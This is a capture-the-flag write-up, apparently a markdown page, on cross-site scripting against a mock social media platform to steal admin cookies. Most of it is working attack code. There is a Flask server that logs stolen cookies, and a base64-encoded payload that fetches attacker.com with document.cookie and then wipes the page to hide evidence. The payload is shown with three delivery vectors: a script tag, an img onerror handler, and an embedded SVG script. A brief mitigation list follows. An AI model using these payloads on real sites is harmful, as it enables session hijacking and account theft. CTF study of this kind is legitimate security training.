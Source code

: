 # XSS Deep Dive

## Introduction
In this writeup, we'll explore a sophisticated cross-site scripting (XSS) vulnerability found in a recent CTF challenge. We'll cover the discovery, analysis, and exploitation of multiple XSS vectors.

## Challenge Overview
- **Category**: Web Security
- **Points**: 450
- **Description**: A social media platform with various user interaction points. Find and exploit XSS vulnerabilities to steal admin cookies.

## Initial Analysis

Set up a collection server:
```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/collect', methods=['GET'])
def collect():
    cookie = request.args.get('c')
    with open('cookies.txt', 'a') as f:
        f.write(f"{cookie}\n")
    return 'ok'

app.run(host='0.0.0.0', port=8000)
```

### Final Payload
Combined multiple vectors for reliability:
```javascript
// Base64 encoded payload
const payload = btoa(`
    fetch('http://attacker.com/collect?c=' + btoa(document.cookie))
    .then(r => r.text())
    .then(t => {
        // Clean up evidence
        document.body.innerHTML = 'Loading...';
        location = 'http://target.com/';
    });
`);

// Delivery methods
const vectors = {
    bio: `<script>eval(atob('${payload}'))</script>`,
    
    comment: `<img src="x" onerror="eval(atob('${payload}'))">`,
    
    svg: `<?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
        <script type="text/javascript">
            eval(atob('${payload}'))
        </script>
    </svg>`
};
```

## Mitigation
To prevent XSS:
1. Implement proper input validation
2. Use content security policy (CSP)
3. Apply context-aware output encoding
4. Set secure cookie flags
5. Validate file uploads thoroughly

## Conclusion
This challenge demonstrated:
- Multiple XSS vectors
- Defense bypass techniques
- Payload optimization
- Automated exploitation

Key takeaways:
1. Always validate and encode user input
2. Implement defense in depth
3. Regular security testing
4. Keep up with new bypass techniques 